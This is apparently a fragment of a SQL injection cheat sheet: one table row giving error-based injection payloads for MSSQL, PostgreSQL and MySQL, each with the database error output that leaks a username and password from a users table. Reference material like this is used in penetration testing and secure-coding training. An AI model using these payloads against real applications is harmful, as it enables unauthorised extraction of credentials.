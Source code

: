 | N/A                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | `' WHERE 1=(SELECT TOP 1 username FROM users)--`<br>=> `Token error: 'Conversion failed when converting the varchar value 'admin' to data type int.' on server 2d8fde58ffb1 executing on line 1 (code: 245, state: 1, class: 16)`<br><br>`' WHERE 1=(SELECT TOP 1 password FROM users)--`<br>=> `Token error: 'Conversion failed when converting the varchar value 'mypassword' to data type int.' on server 2d8fde58ffb1 executing on line 1 (code: 245, state: 1, class: 16)`                                                                                                                                                                                                                                                                                                                                                                                                                    | `' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`<br>=> `ERROR: invalid input syntax for type integer: "admin"`<br><br>`' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`<br>=> `ERROR: invalid input syntax for type integer: "password"`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               | `' WHERE 1=1 and EXTRACTVALUE(1, CONCAT(0x5c, (SELECT username FROM users LIMIT 1)))-- `<br>=> `Server error: ERROR HY000 (1105): XPATH syntax error: '\admin'`<br><br>`' WHERE 1=1 and EXTRACTVALUE(1, CONCAT(0x5c, (SELECT password FROM users LIMIT 1)))-- `<br>=> `Server error: ERROR HY000 (1105): XPATH syntax error: '\mypassword'`                                                                             | Extracting data via visible error messages                                                                                                                                                                                                                                                                                  |
